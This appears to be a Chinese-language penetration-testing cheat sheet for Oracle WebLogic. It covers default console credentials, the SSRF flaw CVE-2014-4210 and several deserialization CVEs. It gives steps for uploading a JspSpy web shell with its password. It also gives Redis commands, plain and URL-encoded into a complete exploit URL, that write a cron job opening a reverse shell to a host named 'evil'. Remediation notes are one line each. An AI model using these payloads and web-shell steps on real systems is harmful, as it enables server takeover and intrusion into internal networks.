 # weblogic
## 控制台弱口令
### 漏洞说明
`http://your-ip:7001/console` 默认账号 weblogic:weblogic/Oracle@123
### 影响范围
/
### 验证方法
**pocsuite**:`poc_weblogic_weakpass.py`
### 利用方法
1. 登录后台
2. 上传war包，地址：`other/seven.war`,配置默认，下一步即可
3. 访问`http://127.0.0.1:7001/seven/JspSpy.jsp` 密码为`ninty`,此为大马
### 修复方式
修改weblogic登录口令为强口令

## weblogic ssrf漏洞 cve-2014-4210
### 漏洞说明
Weblogic服务端请求伪造漏洞出现在uddi组件中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件
### 影响范围
/
### 验证方法
**手动验证**:`http://127.0.0.1:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001`
**pocsuite**:`poc_weblogic_ssrf.py`

### 利用方法
Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。
发送三条redis命令，将弹shell脚本写入`/etc/crontab`：
```bash
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/evil/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```
进行url编码：
```html
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```
url为：`http://127.0.0.1:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fevil%2F21%200%3E%261%27%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa`
### 修复方式
删除将SearchPublicRegistries.jsp
## weblogic 反序列化漏洞
### 漏洞说明
利用xml decoded反序列化进行远程代码执行的漏洞，例如：CVE-2017-10271，CVE-2017-3506。
利用java反序列化进行远程代码执行的漏洞，例如：CVE-2015-4852、CVE-2016-0638、CVE-2016-3510、CVE-2017-3248、CVE-2018-2628、CVE-2018-2894。
### 影响范围
\
### 验证方式
weblogicScanner:
`python ws.py -t 127.0.0.1 -p7001`
### 修复方式
/ 